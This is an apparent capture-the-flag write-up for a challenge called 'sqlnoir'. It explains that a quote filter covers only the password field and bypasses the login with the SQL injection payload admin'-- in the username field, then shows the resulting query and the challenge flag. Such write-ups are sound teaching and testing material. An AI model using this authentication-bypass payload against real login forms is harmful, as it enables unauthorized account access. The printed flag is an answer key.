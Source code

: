 # sqlnoir

## Problem Statement

I outlawed using `'` in the password, you won't be able to run an sql injection now >:)))).

Hint: The admin user is named `admin`.

## Solution

Although `'` is filtered in the password field, it's not filtered in the username field. Knowing that the admin user is named `admin`, we can run an sql injection with the payload 
username `admin'--`, and any password we choose. 

The serverside SQL injection now looks like this.

```SQL
SELECT id, username FROM `user` WHERE username='admin'--' AND password='anything'
```

As such, we get the flag

```
flag{h0w_r_u_so_c00l}
```
